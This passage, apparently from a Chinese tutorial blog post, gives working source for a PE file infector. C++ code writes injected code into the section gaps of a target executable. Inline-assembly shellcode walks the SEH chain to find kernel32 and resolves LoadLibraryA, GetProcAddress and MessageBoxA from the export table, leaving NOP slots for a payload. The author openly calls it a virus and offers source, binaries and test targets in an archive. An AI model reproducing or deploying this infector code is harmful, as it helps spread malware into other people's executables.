    HANDLE hFile = CreateFile( g_strPath, GENERIC_READ|GENERIC_WRITE, FILE_SHARE_READ|FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL );
    if( hFile == NULL )
    {
      MessageBox( "添加节表感染 PE 失败" );
      goto _OUT;
    }
    for( int s = 0; s < dwSectionCnt; s++ )
    {
      if( stInfectInfos[index].Infect_Manner_Info.lpstSectionSpace[s].dwRealCodeOffset != 0 )
      {
        SetFilePointer( hFile, stInfectInfos[index].Infect_Manner_Info.lpstSectionSpace[s].dwFileSpaceOffset, NULL, FILE_BEGIN );
        DWORD dwCnt = 0;
        if( stInfectInfos[index].Infect_Manner_Info.lpstSectionSpace[s+1].dwRealCodeOffset == 0 )
        {//如果是最后一段感染代码，例外处理
          WriteFile( hFile, (LPVOID)(stInfectInfos[index].Infect_Manner_Info.lpstSectionSpace[s].dwRealCodeOffset), stInfectInfos[index].Infect_Manner_Info.lpstSectionSpace[s].dwRealCodeSize - dwExtendSize, &dwCnt, NULL );
          DWORD dwToken = 0xfffffff9;
          WriteFile( hFile, &dwToken, 4, &dwCnt, NULL );
          WriteFile( hFile, lpContent, strlen(lpContent), &dwCnt, NULL );
          SetFilePointer( hFile, 10, NULL, FILE_CURRENT );
          
          dwToken = 0xfffffffa;
          WriteFile( hFile, &dwToken, 4, &dwCnt, NULL );
          WriteFile( hFile, lpTitle, strlen(lpTitle), &dwCnt, NULL );
          SetFilePointer( hFile, 10, NULL, FILE_CURRENT );
          
          
          dwToken = 0xfffffffb;
          WriteFile( hFile, &dwToken, 4, &dwCnt, NULL );
          WriteFile( hFile, lpLoadLibraryA, strlen(lpLoadLibraryA), &dwCnt, NULL );
          SetFilePointer( hFile, 10, NULL, FILE_CURRENT );
          
          
          dwToken = 0xfffffffc;
          WriteFile( hFile, &dwToken, 4, &dwCnt, NULL );
          WriteFile( hFile, lpGetProcess, strlen(lpGetProcess), &dwCnt, NULL );
          SetFilePointer( hFile, 10, NULL, FILE_CURRENT );
          
          
          dwToken = 0xfffffffd;
          WriteFile( hFile, &dwToken, 4, &dwCnt, NULL );
          WriteFile( hFile, lpUser32, strlen(lpUser32), &dwCnt, NULL );
          SetFilePointer( hFile, 10, NULL, FILE_CURRENT );
          
          
          dwToken = 0xfffffffe;
          WriteFile( hFile, &dwToken, 4, &dwCnt, NULL );
          WriteFile( hFile, lpMessageBoxA, strlen(lpMessageBoxA), &dwCnt, NULL );
          SetFilePointer( hFile, 10, NULL, FILE_CURRENT );
          
          
          dwToken = 0xffffffff;
          WriteFile( hFile, &dwToken, 4, &dwCnt, NULL );
          WriteFile( hFile, lpExitProcess, strlen(lpExitProcess), &dwCnt, NULL );
          SetFilePointer( hFile, 10, NULL, FILE_CURRENT );
          
        }
        else
        {
          WriteFile( hFile, (LPVOID)(stInfectInfos[index].Infect_Manner_Info.lpstSectionSpace[s].dwRealCodeOffset), stInfectInfos[index].Infect_Manner_Info.lpstSectionSpace[s].dwRealCodeSize, &dwCnt, NULL );
        }

      }
    }
    CloseHandle( hFile );
    MessageBox( "文件缝隙方式感染成功!" );


}
_OUT:
  for( int k = 0; k < dwInfectCnt; k++ )
  {
    if( (stInfectInfos[k].dwId == 2) && (stInfectInfos[k].Infect_Manner_Info.lpstSectionSpace != NULL) )
      delete stInfectInfos[k].Infect_Manner_Info.lpstSectionSpace;
  }
```


未感染前：见上图

感染后：





\------------------------------



最后看下注入代码的编写吧。因为注入代码运行时已经在目标程序中，所以要自己获取需要调用的函数地址。具体见代码吧：

代码:

```c
void _declspec(naked)MainCode()
{
    _asm
    {
        _Start:
        call _Reloc
    _Reloc:
        pop eax
        sub eax,5
        mov ebx,eax
        sub eax,offset _Start

        mov ebp,esp
        sub esp,0x50
        mov [ebp-4],eax
        mov [ebp-0x28],ebx
        
        mov eax,fs:[0]
    _SearchFunc:
        cmp eax,0
        jz _Over
        mov ebx,[eax]
        cmp ebx,-1
        jz _FoundFunc
        mov eax,ebx
        jmp _SearchFunc
    _FoundFunc:
        mov eax,[eax+4]
    _SearchMZ:
        cmp eax,0
        jz _Over
        xor ax,ax
        cmp word ptr[eax],'ZM'
        jz _SearchPE
        dec eax
        jmp _SearchMZ
        
    _SearchPE:
        mov ebx,[eax+0x3c]
        add ebx,eax
        cmp word ptr[ebx],'EP'
        jz _FoundModule
        dec eax
        jmp _SearchMZ
        
    _FoundModule:
        mov [ebp-8],eax

        mov ebx,[ebx+0x78]
        lea esi,[ebx+eax+0x10]
        lodsd
        xchg eax,ebx //base index
        lodsd
        lodsd
        xchg eax,ecx //name count
        lodsd
        xchg eax,edx //func address
        lodsd
        xchg eax,edi //name address
        lodsd    //oridinal index
        
        mov [ebp-0xc],ebx
        mov [ebp-0x10],ecx
        mov [ebp-0x14],edx
        mov [ebp-0x18],edi
        mov [ebp-0x1c],eax

        //第一分段
        push eax  //50
        push eax  
        push eax
        pop eax   //58
        pop eax
        pop eax
        
        push 0x0fffffff9
        lea eax,[esp]
        call _Addr1
        _Addr1:
        pop ebx
        //mov eax,0xf9ffffff
        //mov edi,ebx
        _SearchContent:
        mov ecx,4
        mov esi,eax
        mov edi,ebx
        repz cmpsb
        jz _SearchContentOver
        inc ebx
        jmp _SearchContent
        _SearchContentOver:
        mov [ebp-0x2c],edi
        pop eax

        push 0x0fffffffa
        lea eax,[esp]
        call _Addr2
        _Addr2:
        pop ebx
        _SearchTitle:
        mov ecx,4
        mov esi,eax
        mov edi,ebx
        repz cmpsb
        jz _SearchTitleOver
        inc ebx
        jmp _SearchTitle
    _SearchTitleOver:
        mov [ebp-0x30],edi
        pop eax

        push 0x0fffffffb
        lea eax,[esp]
        call _Addr3
        _Addr3:
        pop ebx
        _SearchLoadLibraryA:
        mov ecx,4
        mov esi,eax
        mov edi,ebx
        repz cmpsb
        jz _SearchLoadLibraryAOver
        inc ebx
        jmp _SearchLoadLibraryA
    _SearchLoadLibraryAOver:
        mov [ebp-0x34],edi
        pop eax

        push 0x0fffffffc
        lea eax,[esp]
        call _Addr4
        _Addr4:
        pop ebx
    _SearchGetFuncAddress:
        mov ecx,4
        mov esi,eax
        mov edi,ebx
        repz cmpsb
        jz _SearchGetFuncAddressOver
        inc ebx
        jmp _SearchGetFuncAddress
    _SearchGetFuncAddressOver:
        mov [ebp-0x38],edi
        pop eax

        push 0x0fffffffd
        lea eax,[esp]
        call _Addr5
        _Addr5:
        pop ebx
    _SearchUser32:
        mov ecx,4
        mov esi,eax
        mov edi,ebx
        repz cmpsb
        jz _SearchUser32Over
        inc ebx
        jmp _SearchUser32
    _SearchUser32Over:
        mov [ebp-0x3c],edi
        pop eax

        push 0x0fffffffe
        lea eax,[esp]
        call _Addr6
        _Addr6:
        pop ebx
    _SearchMessageBoxA:
        mov ecx,4
        mov esi,eax
        mov edi,ebx
        repz cmpsb
        jz _SearchMessageBoxAOver
        inc ebx
        jmp _SearchMessageBoxA
    _SearchMessageBoxAOver:
        mov [ebp-0x40],edi
        pop eax

        push 0x0ffffffff
        lea eax,[esp]
        call _Addr7
        _Addr7:
        pop ebx
    _SearchExitProcess:
        mov ecx,4
        mov esi,eax
        mov edi,ebx
        repz cmpsb
        jz _ExitProcessOver
        inc ebx
        jmp _SearchExitProcess
    _ExitProcessOver:
        mov [ebp-0x44],edi
        pop eax

        //第二分段
        push eax
        push eax
        push eax
        pop eax
        pop eax
        pop eax

        mov eax,[ebp-4]
        mov ebx,[ebp-0x34]
        lea edi,[ebx]
        mov edx,edi
        xor eax,eax
    _Scasb:
        scasb
        jnz _Scasb
        dec edi
        sub edi,edx
        mov ebx,edi
        
        mov ecx,[ebp-0x10]
    _LoadLA:
        mov eax,[ebp-0x18]
        add eax,[ebp-0x8]
        mov eax,[eax+ecx*4-4]
        add eax,[ebp-0x8]
        lea edi,[eax]
        mov esi,edx
        push ecx
        mov ecx,ebx
        repz cmpsb
        jz _F
        pop ecx
        loop _LoadLA

    _F:
        pop ecx
        mov eax,[ebp-0x1c]
        add eax,[ebp-0x8]
        movzx ebx,word ptr[eax+ecx*2-2]
        mov eax,[ebp-0x14]
        add eax,[ebp-0x8]
        mov eax,[eax+ebx*4]
        add eax,[ebp-0x8]
        mov [ebp-0x20],eax

        mov eax,[ebp-0x4]
        mov ebx,[ebp-0x38]
        lea edi,[ebx]
        mov ebx,edi
        xor eax,eax
    _Sca:
        scasb
        jnz _Sca
        dec edi
        sub edi,ebx
        mov edx,edi

        mov ecx,[ebp-0x10]
    _GetFuncAddress:
        mov eax,[ebp-0x18]
        add eax,[ebp-0x8]
        mov eax,[eax+ecx*4-4]
        add eax,[ebp-0x8]
        lea esi,[eax]
        mov edi,ebx
        push ecx
        mov ecx,edx
        repz cmpsb
        jz _FoundGetFuncAddress
        pop ecx
        loop _GetFuncAddress

    _FoundGetFuncAddress:
        pop ecx
        mov eax,[ebp-0x1c]
        add eax,[ebp-0x8]
        movzx ebx,word ptr[eax+ecx*2-2]
        mov eax,[ebp-0x14]
        add eax,[ebp-0x8]
        mov eax,[eax+ebx*4]
        add eax,[ebp-0x8]
        mov [ebp-0x24],eax

        mov eax,[ebp-4]
        mov ebx,[ebp-0x44]
        lea edi,[ebx]
        mov ebx,edi
        xor eax,eax
    _ScaExitProcess:
        scasb
        jnz _ScaExitProcess
        dec edi
        sub edi,ebx
        mov edx,edi
        
        mov ecx,[ebp-0x10]
    _GetExitProcess:
        mov eax,[ebp-0x18]
        add eax,[ebp-0x8]
        mov eax,[eax+ecx*4-4]
        add eax,[ebp-0x8]
        lea esi,[eax]
        mov edi,ebx
        push ecx
        mov ecx,edx
        repz cmpsb
        jz _FoundExitProcess
        pop ecx
        loop _GetExitProcess
        
    _FoundExitProcess:
        pop ecx
        mov eax,[ebp-0x1c]
        add eax,[ebp-0x8]
        movzx ebx,word ptr[eax+ecx*2-2]
        mov eax,[ebp-0x14]
        add eax,[ebp-0x8]
        mov eax,[eax+ebx*4]
        add eax,[ebp-0x8]
        mov [ebp-0x28],eax

        //第三分段
        push eax
        push eax
        push eax
        pop eax
        pop eax
        pop eax

        mov eax,[ebp-0x20]
        mov ebx,[ebp-0x4]
        mov edx,[ebp-0x3c]
        //lea edx,[edx]
        push edx
        call eax
        cmp eax,-1
        jz _Over
        mov edx,[ebp-0x40]
        // mov edx,[edx]
        push edx
        push eax
        mov eax,[ebp-0x24]
        call eax
        cmp eax,-1
        jz _Over
        mov ebx,[ebp-0x4]
        push 4
        mov edx,[ebp-0x30]
        push edx
        mov edx,[ebp-0x2c]
        push edx
        push 0
        call eax
        cmp eax,6  //IDOK=6,IDNO=7
        jnz _Over
        _emit 0x90
        _emit 0x90
        _emit 0x90
        _emit 0x90
        _emit 0x90
        _emit 0x90
    _Over:
        mov esp,ebp
        ret     
    }
}

void _declspec(naked) GetEndAddress()
{
    _asm ret;
}
```

用内联汇编写病毒，还是不爽。`asm` 才是病毒的王道。

以上代码写的有点混乱，重复代码也比较多，凑活看吧。差点忘了，软件运行界面



最后附上源码+bin+测试用的感染目标

`PE感染.rar` [解压密码：`pepe`]
